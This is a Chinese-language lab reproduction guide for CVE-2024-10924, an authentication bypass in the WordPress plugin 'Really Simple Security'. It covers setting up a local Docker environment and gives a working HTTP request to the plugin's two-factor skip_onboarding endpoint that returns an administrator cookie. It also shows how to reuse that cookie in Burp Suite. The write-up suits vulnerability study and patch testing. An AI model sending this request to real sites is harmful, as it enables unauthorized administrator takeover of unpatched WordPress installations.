 # WordPress "Really Simple Security"插件 任意用户登陆漏洞（CVE-2024-10924）

WordPress 插件 “Really Simple Security” 中的一个严重漏洞（CVE-2024-10924）允许未经身份验证的攻击者绕过身份验证并获取管理员权限。

## 测试环境

执行如下命令启动一个WordPress漏洞环境：

```
docker compose up -d
```

访问 http://127.0.0.1:1337/wp-admin/install.php 进行WordPress安装

![1](1.png)

安装完成之后使用创建的管理员账号登录。登录后访问 http://127.0.0.1:1337/wp-admin/plugins.php ，点击“启用”激活Really Simple Security插件。（这里不能点“启动自动更新”，会升级成无漏洞版本）。

![2](2.png)

接着会跳出SSL激活选项，这里我们点击“Cancel”。

![3](3.png)

接着直接在当前页面点击“Settings”。

![4](4.png)

"Login Protection" > "Two-Factor Authentication"，接着如图顺序点击。

![5](5.png)

至此，CVE-2024-10924漏洞环境安装完成。

## 漏洞复现

正常访问 http://127.0.0.1:1337/wp-login.php 发现处于未登录状态。

![6](6.png)

执行以下POC，其中user_id的值是你要登录的用户（一般管理员id是1）。

```http
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: 127.0.0.1:1337
Content-Type: application/json
Content-Length: 89
Connection: keep-alive

{
    "user_id": 1,
    "login_nonce": "133333337",
    "redirect_to": "/wp-admin/"
}
```

执行结果会返回Cookie值，把这个cookie放到正常请求包里即可使用admin的身份登录后台。

![7](7.png)

![8](8.png)

但这里会发现一个问题：这个cookie必须在每次请求都手动添加，非常麻烦。于是我们可以使用burpsuite中的“Match and replace rules”设置来在每一次请求包中添加Cookie，实现在后台顺滑地进行操作。

![9](9.png)

